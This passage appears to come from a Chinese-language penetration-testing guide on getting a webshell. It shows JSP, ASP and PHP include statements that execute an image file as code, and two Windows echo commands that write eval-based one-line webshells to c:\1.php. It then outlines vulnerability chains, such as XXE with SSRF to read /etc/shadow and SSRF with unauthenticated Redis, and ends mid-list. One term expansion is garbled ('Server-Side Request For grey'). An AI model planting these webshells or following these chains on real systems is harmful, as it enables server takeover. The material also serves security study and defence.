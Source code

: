      * jsp包含

       ```jsp
       <%@ include file="文件相对 url 地址" %>
       ```

     * asp包含

       ```asp
       <!--#include file="123.jpg"-->
       #调用的文件必须和被调用文件在同一目录，如果不在同一目录，用下面的语句：
       <!--#include  virtual="文件所在目录/123.jpg"-->
       ```

     * php包含

       ```php
       <?php
       include('123.jpg');
       ?>
       ```

     * 命令执行

       ```bash
       echo ^<^?php @eval($_POST['cmd']);?^>^ > c:\1.php
       ```

       ```bash
       ^<^%eval request("cracer")%^>^ > c:\1.php
       # 需要知道网站路径
       ```

5. **漏洞组合拳getshell**


在某些时候一个漏洞即可getshell，但是有时候需要各种漏洞进行组合成功获取shell。

* **XXE(+SSRF)**


XXE即XML外部实体注入攻击，最理想的状态就是直接可以代码执行（类似PHP expert）；大多数还是以文件读取信息收集为主，结合源码或者配置文件（例如/etc/shadow、tomcat-users.xml等）getshell；还可以通过XXE的SSRF(Server-Side Request For grey,服务器请求伪造)来getshell。 

* **SSRF+RCE**


原理上SSRF可以结合所有RCE（反序列化、s2、mysql等）的漏洞进行组合利用，只是在平常实践中用SSRF+redis未授权用的更多。

* **文件读取+源码+Vuls(基于Linux/FreeBSD的漏洞扫描程序)**


一般情况下是通过web.xml获取class文件，然后进行反编译，找到代码的漏洞，进而获取系统的权限。

* **弱口令+后台+上传**


通过对弱口令的破解，可以进入后台对多种漏洞进行利用，同时还具备备份还原、导入导出、模板编辑等功能。

* **XSS/CSRF+后台+上传**
